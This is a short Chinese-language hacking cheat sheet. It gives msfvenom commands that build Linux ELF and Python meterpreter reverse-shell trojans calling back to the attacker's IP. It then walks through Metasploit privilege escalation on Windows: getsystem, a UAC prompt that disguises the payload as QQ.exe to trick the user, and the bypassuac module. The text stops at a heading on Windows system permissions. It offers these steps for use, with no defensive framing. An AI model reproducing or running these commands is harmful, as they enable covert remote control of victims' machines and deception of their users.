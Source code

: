 生成linux木马

msfvenom -a x86 –platform Linux -p linux/x86/meterpreter/reverse_tcp lhost=[自己ip] lport=4444 -f elf -o msf.elf

生成python木马

msfvenom -p python/meterpreter/reverse_tcp lhost=[自己ip] lport=4444 -f raw -o msf.py

## meterpreter的操作：

UAC提权

getuid 查看当前的权限

getsystem 直接提权

（有风险，有可能会报错）

考虑使用ask模块提权

background 把木马放到后台

use exploit/windows/local/ask 加载ask模块

info 查看漏洞信息

set session [编号] 把漏洞用在几号木马控制的目标上

set filename QQ.exe 伪装成qq程序

exploit

会在用户桌面弹出一个是否允许qq启动，用户选择yes，成功！

之后会反弹给我一个新的session，进入这个新的session

getuid 发现还不是system

getsystem 提高到system权限

------

UAC绕过提权（成功率不高，并且只能拿来对付32位系统）

use exploit/windows/local/bypassuac

show options

set session [编号]

exploit 开始攻击

之后会反弹给我一个新的session，进入这个新的session

getuid 发现还不是system

getsystem 提高到system权限

## 系统权限：

windows：
